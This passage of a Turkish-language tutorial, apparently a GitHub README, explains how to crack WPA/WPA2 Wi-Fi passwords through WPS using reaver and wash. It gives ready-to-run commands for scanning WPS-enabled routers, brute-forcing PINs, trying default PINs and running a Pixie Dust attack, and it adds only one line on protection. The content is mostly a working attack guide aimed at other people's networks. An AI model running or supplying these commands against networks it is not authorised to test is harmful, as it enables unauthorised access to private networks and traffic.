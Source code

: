 ```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -vv
```

## 📌 Açıklamalar:

-i wlan0mon → Kablosuz adaptörün monitor moddaki ismi.
-b XX:XX:XX:XX:XX:XX → Hedef modem MAC adresi.
-vv → Detaylı çıktı verir.
```bash
MAC adresini wash -i wlan0mon komutundan öğrenebilirsin.
```
- 4️⃣ PIN ile Doğrudan Şifre Kırma
Bazı modemlerin varsayılan PIN kodları olabilir. Bunları deneyerek WPA/WPA2 şifresini almak için:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```
Burada -p 12345670, PIN kodudur. Varsayılan WPS PIN’leriyle deneme yapar.
- 5️⃣ Pixie Dust Saldırısı (Hızlı PIN Kırma)
Eğer modem Pixie Dust saldırısına karşı savunmasızsa, PIN saniyeler içinde kırılabilir.
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -K 1 -vv
```

### Ekstra Seçenekler:

-K 1 → Pixie Dust saldırısını aktif eder.

## 📌 Reaver İşlem Süresi & Önlemler

**⏳ Süre: WPS brute-force saldırısı birkaç saat sürebilir.**

**🛑 Korunma: Reaver saldırılarından korunmak için WPS’yi kapat ve güçlü bir WPA2/WPA3 şifresi kullan.**

_______________________________________________________________________________________-

### Reaver ile Hazır PIN'ler Nasıl Bulunur?

Bazı modemlerin varsayılan WPS PIN kodları üreticiler tarafından belirlenmiştir. Reaver, bu varsayılan PIN’leri kullanarak WPA/WPA2 şifresini hızlıca kırabilir.
**🔹 1️⃣ WPS Açık Modemleri Tarama**

Öncelikle, WPS açık olan modemleri bulmak için aşağıdaki komutu kullan:
```bash
wash -i wlan0mon --ignore-fcs
```

### Bu komut:

WPS açık olan modemleri gösterir.
MAC adreslerini listeler.
**🔹 2️⃣ Varsayılan WPS PIN'leri ile Deneme**

Bulduğun modem için varsayılan WPS PIN’lerini Reaver kullanarak deneyebilirsin:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```
